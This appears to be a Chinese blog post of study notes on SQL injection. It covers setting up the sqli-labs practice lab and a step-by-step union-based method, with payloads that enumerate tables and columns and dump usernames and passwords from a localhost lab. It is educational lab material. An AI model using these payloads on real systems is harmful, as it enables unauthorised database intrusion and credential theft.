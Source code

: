 ```yaml
---
layout: post
title: "SQL 注入"
categories: cs
tags: [cs]
date: 2022-05-12
---
```


## SQL 注入

1. 页面输入或者API字段, 可以影响sql语句结构;

### MySql 读写文件

读文件权限: secure_file_priv 不为NULL

### 搭建SQLI-LABS
[sqli-labs](https://github.com/Audi-1/sqli-labs)  
> sqli-labs是sql注入学习靶机, 需要mysql和php5支持.

		1. cd /var/www/html
		2. git clone https://github.com/Audi-1/sqli-labs.git
		3. ./sqli-labs/sql-connections/db-creds.inc  修改数据库配置
		4. 如果是使用php7及以上, 查看/var/log/apache2/error.log, mysql_connect 会报错, 修改成mysqli_connect; 
			所有`mysql_`开头的函数需要修改成`mysqli_`; mysqli_query函数第一个参数为mysqli; mysqli_select_db函数
			第一个参数为mysqli, 第二个参数为db数据库

### Firefox

		1. hackbar
		2. firebug
		3. live http headers
		4. tamper data

### SQL 注入步骤

		1. 利用order by 判断字段数.
		2. 利用union select 联合查询, 获取表名.
			0' union select 1,group_concat(table_name),3 from information_schema.tables.tables where table_schema=database() --+
		3. 利用union select 联合查询, 获取字段名.
			0' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users' --+
		4. 利用union select 联合查询, 获取字段值.
			0' union select 1,group_concat(username, 0x3a, password),3 from users --+

		例:
		  http://127.0.0.1/sqli-labs/Less-1/?id=1%27%20order%20by%203%20--%20%27
			http://127.0.0.1/sqli-labs/Less-1/?id=0%27%20union%20select%201,group_concat(table_name),3%20from%20information_schema.tables%20where%20table_schema=database()%20--%20%27



### Reference
[How to Setup SQLi Penetration Testing Lab on Kali Linux](https://www.kalilinux.in/2021/09/how-to-setup-sql-injection-labs-kali-linux.html)  
[Fatal error: Call to undefined function mysql_connect()](https://stackoverflow.com/questions/10615436/fatal-error-call-to-undefined-function-mysql-connect)  
